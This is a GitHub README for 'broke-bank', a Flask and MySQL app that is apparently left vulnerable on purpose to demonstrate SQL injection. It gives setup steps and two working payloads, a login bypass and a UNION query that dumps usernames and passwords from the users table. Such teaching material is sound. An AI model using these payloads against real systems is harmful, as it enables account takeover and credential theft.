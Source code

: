 # broke-bank
SQL injection demonstraction built with Flask and MySQL.

# Setup

1. Clone repository
```shell
git clone https://github.com/anilmawji/broke-bank.git; cd broke-bank
```

2. Create and activate virtual environment (optional, recommended)
```shell
python -m venv .venv      # Create virtual environment
source .venv/bin/activate # On macOS/Linux
.venv\Scripts\activate    # On Windows
```

2. Install dependencies
```shell
pip install -r requirements.txt
```

3. Create .env file for environment variables
```env
FLASK_ENV=development
FLASK_APP=main.py
MYSQL_USER=username_here
MYSQL_PASSWORD=password_here
```

4. Start server (local deployment)
```shell
flask run
```

# SQL Injection Examples

User login bypass (make sure to include the space at the end!)
```sql
a' or 1=1 -- 
```
![image](https://github.com/user-attachments/assets/5fdf6609-cd84-4420-9c48-b4b0744d09fa)

Transaction history search bar - SQL version and user info dump
```sql
3' union select null, user_id, version(), username, user_password from users;
```
![image](https://github.com/user-attachments/assets/4fc1abf2-d018-4dde-b240-09147835e81a)

